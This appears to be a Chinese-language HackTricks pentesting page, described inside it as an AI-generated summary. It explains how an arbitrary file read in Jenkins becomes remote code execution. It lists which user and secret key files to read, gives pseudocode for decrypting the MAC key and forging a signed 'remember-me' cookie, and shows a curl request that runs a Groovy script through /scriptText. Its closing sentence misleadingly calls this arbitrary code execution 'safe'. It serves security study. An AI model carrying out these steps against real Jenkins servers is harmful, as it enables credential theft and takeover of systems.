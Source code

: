# Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

在这篇博客文章中，可以找到将Jenkins中的本地文件包含漏洞转化为RCE的好方法：[https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

这是一个AI生成的摘要，关于如何利用任意cookie的构造来获取RCE，利用本地文件读取，直到我有时间自己创建摘要：

### 攻击前提

- **功能要求：** 必须启用“记住我”（默认设置）。
- **访问级别：** 攻击者需要整体/读取权限。
- **秘密访问：** 能够读取关键文件中的二进制和文本内容。

### 详细利用过程

#### 第一步：数据收集

**用户信息检索**

- 访问每个用户的用户配置和秘密，从`$JENKINS_HOME/users/*.xml`中收集：
- **用户名**
- **用户种子**
- **时间戳**
- **密码哈希**

**密钥提取**

- 提取用于签名cookie的加密密钥：
- **秘密密钥：** `$JENKINS_HOME/secret.key`
- **主密钥：** `$JENKINS_HOME/secrets/master.key`
- **MAC密钥文件：** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 第二步：Cookie伪造

**令牌准备**

- **计算令牌过期时间：**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // 将当前时间加一小时
```

- **连接令牌数据：**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC密钥解密**

- **解密MAC密钥文件：**

```javascript
key = toAes128Key(masterKey)  // 将主密钥转换为AES128密钥格式
decrypted = AES.decrypt(macFile, key)  // 解密.mac文件
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**签名计算**

- **计算HMAC SHA256：**

```javascript
mac = HmacSHA256(token, macKey) // 使用令牌和MAC密钥计算HMAC
tokenSignature = bytesToHexString(mac) // 将MAC转换为十六进制字符串
```

**Cookie编码**

- **生成最终Cookie：**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Base64编码cookie数据
```

#### 第三步：代码执行

**会话认证**

- **获取CSRF和会话令牌：**
- 向`/crumbIssuer/api/json`发送请求以获取`Jenkins-Crumb`。
- 从响应中捕获`JSESSIONID`，该ID将与记住我cookie一起使用。

**命令执行请求**

- **发送带有Groovy脚本的POST请求：**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy脚本可用于在Jenkins环境中执行系统级命令或其他操作。

提供的示例curl命令演示了如何使用必要的头和cookie向Jenkins发送请求以安全地执行任意代码。

{{#include ../../banners/hacktricks-training.md}}
